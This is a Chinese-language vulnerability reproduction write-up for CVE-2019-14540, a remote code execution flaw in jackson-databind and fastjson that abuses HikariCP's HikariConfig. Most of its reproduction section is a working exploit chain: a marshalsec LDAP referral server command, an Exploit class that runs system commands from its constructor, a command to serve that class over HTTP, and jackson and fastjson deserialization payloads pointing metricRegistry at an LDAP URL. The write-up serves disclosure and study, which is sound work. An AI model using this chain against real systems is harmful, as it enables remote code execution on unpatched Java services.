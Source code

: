 # （CVE-2019-14540）FasterXML jackson-databind 远程命令执行漏洞

> 原文：[http://book.iwonder.run/0day/FasterXML jackson/CVE-2019-14540.html](http://book.iwonder.run/0day/FasterXML jackson/CVE-2019-14540.html)

## 一、漏洞简介

FasterXML Jackson 是美国 FasterXML 公司的一款适用于 Java 的数据处理工具。jackson-databind 是其中的一个具有数据绑定功能的组件。 FasterXML jackson-databind 2.9.10 之前版本中存在输入验证错误漏洞。攻击者可利用该漏洞执行代码。

## 二、漏洞影响

jackson-databind <=2.7.9.6,2.8.11.4,2.9.9.3

fastjson <= 1.2.59

## 三、复现过程

### 分析过程

我喜欢用 gradle 来管理项目，先依赖一个最新版的回来

```
compile 'com.zaxxer:HikariCP:2.4.0' 
```

观察 HikariConfig.java 的 setter 和 getter 方法，稍微有点常识的人都能看出， setMetricRegistry 和 setHealthCheckRegistry 里有明显的 lookup 方法，下一步就是按照标准的剧本去利用一遍了，经典的 jndi 漏洞利用，老司机应该分分钟就搞定，但我从来没写过利用，就从头学习一下。

### 利用过程（常见的 jndi 利用）

首先，我利用的是 ldap 协议，需要在低版本（小于 java8u191）下利用，详细原理我不是很清楚，大致原理就是从远程加载一个 class 文件，调用它的构造函数，在构造函数里可以执行任意代码。

然后，借用 [https://github.com/ianxtianxt/marshalsec](https://github.com/ianxtianxt/marshalsec) 提供的转发功能，创建 ldap server，作用是转发到另一个 http server 上，使用非常方便。

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 1389

Listening on 0.0.0.0:1389 
```

然后编译一个 Exploit.class 出来，找个地方放好

```
public class Exploit {
    public Exploit() {
        try {
            if (System.getProperty("os.name").toLowerCase().startsWith("win")) {
                Runtime.getRuntime().exec("calc.exe");
            } else if (System.getProperty("os.name").toLowerCase().startsWith("mac")) {
                Runtime.getRuntime().exec("open /Applications/Calculator.app");
            } else {
                System.out.println("No calc for you!");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
} 
```

然后在 Exploit.class 目录，开一个 http 服务

```
python -m SimpleHTTPServer 
```

之后使用 jackson 进行反序列化

```
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
mapper.readValue("[\"com.zaxxer.hikari.HikariConfig\", {\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}]".getBytes(), Object.class); 
```

或者使用 fastjson 进行反序列化

```
ParserConfig.global.setAutoTypeSupport(true);
JSON.parse("{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}"); 
```

即可触发弹计算器

![image](img/74c4ae1e13752d1cb8d014befc5e56a9.png)

### 文中代码的 github 地址:

[https://github.com/ianxtianxt/cve-2019-14540-exploit](https://github.com/ianxtianxt/cve-2019-14540-exploit)

## 参考链接

> [https://www.leadroyal.cn/?p=939](https://www.leadroyal.cn/?p=939)
> 
> [https://www.restran.net/2018/10/29/fastjson-rce-notes/](https://www.restran.net/2018/10/29/fastjson-rce-notes/)
> 
> [https://paper.seebug.org/942/](https://paper.seebug.org/942/)

